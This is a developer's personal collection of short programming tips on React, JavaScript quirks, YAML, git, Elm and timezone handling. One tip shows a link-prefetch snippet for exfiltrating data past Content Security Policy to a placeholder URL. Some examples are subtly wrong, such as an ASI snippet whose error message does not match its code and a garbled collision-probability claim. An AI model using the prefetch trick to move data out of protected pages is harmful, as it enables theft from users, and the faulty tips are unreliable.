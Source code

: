 ```jsx
<WrappedComponent {...this.props}/>
// is equivalent to
React.createElement(WrappedComponent, this.props, null)
```

– https://medium.com/@franleplant/react-higher-order-components-in-depth-cf9032ee6c3e#5247

---

**Regular expression to match a string **not** containing a character sequence: `^((?!WORD_1).)*$`**

– https://stackoverflow.com/questions/406230/regular-expression-to-match-a-line-that-doesnt-contain-a-word

---

**When to use quotes in YAML (why is this so complicated?)**

In general, you don't need quotes. However, you should use them...
* to force a string, e.g. if your key or value is 10 but you want it to return a String and not a Fixnum, write '10' or "10".
* if your value starts with special characters: (`:`, `{`, `}`, `[`, `]`, ,`,`, `&`, `*`, `#`, `|`, `-`, `>`, `=`, `!`, `%`, or `@`)
* if your value ends with special characters: (`:` or `#`)
* "`Yes`" and "`No`" should be enclosed in quotes (single or double) or else they will be interpreted as `TrueClass` and `FalseClass` values

> Single quotes let you put almost any character in your string, and won't try to parse escape codes. `'\n'` would be returned as the string `\n`.

> Double quotes parse escape codes. `"\n"` would be returned as a line feed character.

> Seems to me that the best approach would be to not use quotes unless you have to, and then to use single quotes unless you specifically want to process escape codes. **Yeah, but then I have to consult this list every time!** 😡😡😡

---

**ASI Edge-Cases**

> Function return statement

```js
function a() {
  return
  "Nope, I am sorry!"
}

a() // undefined
```

> Line starting with parenthesis

```js
const b = 1
(function() { console.log('Old school module pattern!') })()

// Uncaught TypeError: 1 is not a function
```

> Line starting with angle brackets

```js
const squared = []
[1, 2].forEach(i => c.push(i * 2))

// Uncaught TypeError: Cannot read property 'map' of undefined
```

– https://maurobringolf.ch/2017/06/automatic-semicolon-insertion-edge-cases-in-javascript/

---

You can use cherry-pick a range of commits!

---

You can rename branches! `git branch -m NEW_BRANCH_NAME`

---

How to deal with conflicts in yarn.lock files:
* git checkout BASE_BRANCH -- yarn.lock
* yarn install

```

You can conditionally add elements/properties to Arrays/Objects:

```js
const cond = false;
const arr = [
  ...(cond ? ['a'] : []),
  'b',
];
```

```js
const cond = false;
const obj = {
  ...(cond ? {a: 1} : {}),
  b: 2,
};
```

---

You can omit properties with pure ES6
```js
const myObject = {
  a: 1,
  b: 2,
  c: 3
};
const { a, ...noA } = myObject;
console.log(noA); // => { b: 2, c: 3 };
```

---

Difference between TODO and FIXME comments
TODO: We should go back and improve this
FIXME: This hack MUST be fixed before going to production

---

JSON is NOT a subset of Javascript!
JSON allows the /u2028 and /u2029 in string literals, Javascript does not

– http://timelessrepo.com/json-isnt-a-javascript-subset

---

When generating scoped class names, using 6 digits is a good rule of thumb. this will give you 0.001% certainty of zero collisions as long as you don’t have more than 1,172 class names.

---

Functional core, imperative shell - A way to design systems which isolates side-effectful code from pure functional code. Impure functions should call pure functions, but not the other way around.
Functional core: handles decisions (lots of paths, little/no dependencies)
Imperative shell: handles dependencies (lots of dependencies, few paths)

---

Stateless function components cannot use pureRender (they are re-rendered whenever their parent changes, regardless of whether or not their props have changed.

Workaround:
```jsx
const pure = func =>
  class PureComponentWrap extends React.PureComponent {
    render() {
      return func(this.props, this.context);
    }
  }

const MyComponent = ({msg}) =>
  <span>{msg}</span>

const MyComponentPure = pure(MyComponent);
```

---

You can simulate objects in Elm!

```elm
import Html exposing (text)

point = \x y -> { multiply = \multiplier -> (x * multiplier, y * multiplier) }

showAge { age, name } = name ++ " is " ++ (toString age) ++ " years old"

z = { age = 21, name = "Shady" }

f = { id = \x -> x }

myPoint = point 1 3
(_, y) = myPoint.multiply 4

main = y |> toString |> text
```

---

You can circumvent CSP in JavaScript for exfiltrating data!

```js
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```

CSP doesn't restrict `prefetch`, `prerender`, `dns-prefetch`, or `preconnect`
https://bugs.chromium.org/p/chromium/issues/detail?id=663620
https://github.com/w3c/webappsec-csp/issues/107

---

Timezone Stuffs

```
1994-11-05T08:15:30-05:00 corresponds to November 5, 1994, 8:15:30 am, US Eastern Standard Time.

1994-11-05T13:15:30Z corresponds to the same instant.
```

**Do**

- Whenever you are referring to an exact moment in time, persist the time according to a unified standard that is not affected by daylight savings. (GMT and UTC are equivalent with this regard, but it is preferred to use the term UTC. Notice that UTC is also known as Zulu or Z time.)
- If instead you choose to persist a time using a local time value, include the local time offset for this particular time from UTC (this offset may change throughout the year), such that the timestamp can later be interpreted unambiguously.
- In some cases, you may need to store both the UTC time and the equivalent local time. Often this is done with two separate fields, but some platforms support a datetimeoffset type that can store both in a single field.
- When storing timestamps as a numeric value, use Unix time - which is the number of whole seconds since 1970-01-01T00:00:00Z (excluding leap seconds). If you require higher precision, use milliseconds instead. This value should always be based on UTC, without any time zone adjustment.
If you might later need to modify the timestamp, include the original time zone ID so you can determine if the offset may have changed from the original value recorded.
- When scheduling future events, usually local time is preferred instead of UTC, as it is common for the offset to change. See answer, and blog post.
- When storing whole dates, such as birthdays and anniversaries, do not convert to UTC or any other time zone.

**Don't**

- Do not confuse a "time zone", such as America/New_York with a "time zone offset", such as -05:00. They are two different things. See the timezone tag wiki.
- Do not use JavaScript's Date object to perform date and time calculations in older web browsers, as ECMAScript 5.1 and lower has a design flaw that may use daylight saving time incorrectly. (This was fixed in ECMAScript 6 / 2015).
- Never trust the client's clock. It may very well be incorrect.
- Don't tell people to "always use UTC everywhere". This widespread advice is shortsighted of several valid scenarios that are described earlier in this document. Instead, use the appropriate time reference for the data you are working with. (Timestamping can use UTC, but future time scheduling and date-only values should not.)

https://www.w3.org/TR/NOTE-datetime
https://stackoverflow.com/questions/2532729/daylight-saving-time-and-time-zone-best-practices

Timezone offset != timezone designator

---

Headings and heading-levels
https://medium.com/fed-or-dead/handling-headings-in-a-ui-component-library-2587de93c890
https://medium.com/@Heydon/managing-heading-levels-in-design-systems-18be9a746fa3

